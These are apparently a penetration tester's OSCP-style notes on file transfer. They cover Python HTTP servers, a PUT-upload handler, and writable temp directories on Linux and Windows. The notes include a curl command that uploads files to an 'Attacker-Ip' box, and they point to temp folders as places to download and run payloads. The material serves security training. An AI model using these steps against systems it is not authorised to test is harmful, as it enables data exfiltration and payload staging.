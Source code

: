 ```yaml
---
title: "General"
permalink: /notes/filetransfergeneral/
classes: single
ribbon: LightBlue
categories:
  - notes
tags:
  - beginner
  - pentest
  - recon
  - oscp
  - transfer
  - filetransfer

toc: true
hide_title: true
excerpt: ""
---
```


## Setup HTTP Server

```
python -m SimpleHTTPServer

python3 -m http.server
```

## Advance http server supporting upload method

**first put this code into py file and save it**

```
import SimpleHTTPServer
import BaseHTTPServer

class SputHTTPRequestHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):
     def do_PUT(self):
         print self.headers
         length = int(self.headers["Content-Length"])
         path = self.translate_path(self.path)
         with open(path, "wb") as dst:
             dst.write(self.rfile.read(length))

if __name__ == '__main__':
    SimpleHTTPServer.test(HandlerClass=SputHTTPRequestHandler)
```

- after that run it with **python2** it will spin up the web server on port 8000 ,
- now you can upload file to attacker box with following command

```
curl -T file http://Attacker-Ip:8000
```

## Temp File location

generally temp file has writable permission , so we can use it to downlaod and execute our payloads

### Linux

```
/tmp

/dev/shm
```

### Windows

```
%systemdrive%\Windows\Temp

%userprofile%\AppData\Local\Temp
```